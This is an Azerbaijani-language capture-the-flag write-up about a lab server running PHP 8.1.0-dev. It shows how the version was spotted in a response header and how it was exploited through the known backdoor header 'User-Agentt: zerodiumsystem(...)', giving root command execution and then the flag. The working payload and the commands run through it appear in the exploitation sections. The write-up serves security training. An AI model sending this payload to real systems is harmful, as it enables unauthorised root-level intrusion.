




# 🕵️ İlkin Yoxlama (Reconnaissance)

Hədəf IP ünvanına daxil olduqda sadə və statik bir **admin dashboard** səhifəsi görünür. İlkin mərhələdə hər hansı giriş mexanizmi və ya interaktiv funksiya mövcud deyil.

---

# 🌐 HTTP Sorğusunun Analizi

Daha sonra **Burp Suite** vasitəsilə HTTP sorğusunu ələ keçirib cavab başlıqlarını analiz edirik.

Sorğunun cavab başlıqlarında aşağıdakı məlumat diqqət çəkir:

    X-Powered-By: PHP/8.1.0-dev

Bu hal şübhəlidir, çünki **PHP 8.1.0-dev** stabil buraxılış deyil. Development (inkişaf) versiyaları test məqsədilə istifadə olunur və tez-tez ciddi təhlükəsizlik boşluqları ehtiva edir.

---

# ⚠️ Zəifliyin Aşkarlanması

Aparılan araşdırma nəticəsində məlum olur ki, bu PHP versiyası **Remote Code Execution (RCE)** zəifliyinə malikdir.

Zəiflik xüsusi hazırlanmış HTTP header vasitəsilə istismar olunur. Exploit formatı aşağıdakı kimidir:

    User-Agentt: zerodiumsystem('<əmr>')

⚠️ Qeyd: `User-Agentt` sözündə **iki “t”** olması mütləqdir. Əks halda exploit işləməyəcək.

---

# 💥 RCE İstismarı

Zəifliyi yoxlamaq üçün aşağıdakı payload göndərilir:

    User-Agentt: zerodiumsystem('whoami')

Cavabda `root` nəticəsinin alınması əmrlərin **root səlahiyyəti ilə** icra edildiyini təsdiqləyir.

---

# 🚩 Flag-ın Tapılması

Sistemdə flag faylını tapmaq üçün aşağıdakı əmr icra olunur:

    find / -name flag.txt 2>/dev/null

---

# 🏁 Flag-ın Oxunması

Tapılan flag faylının məzmunu oxunur:

    cat /flag.txt

---

# 🧠 Nəticə

Bu tapşırıq göstərir ki, **development versiyaların production mühitində istifadəsi ciddi təhlükə yaradır**. Sadə bir HTTP header analizi ilə kritik RCE zəifliyi aşkar edildi və sistem tam şəkildə ələ keçirildi.

## Əsas Nəticələr

- HTTP response header-lar mütləq analiz edilməlidir  
- Development versiyalar təhlükəsizlik baxımından risklidir  
- Kiçik detallar kritik zəifliklərə yol aça bilər  
- RCE zəifliyi tam sistem kompromisinə səbəb olur  
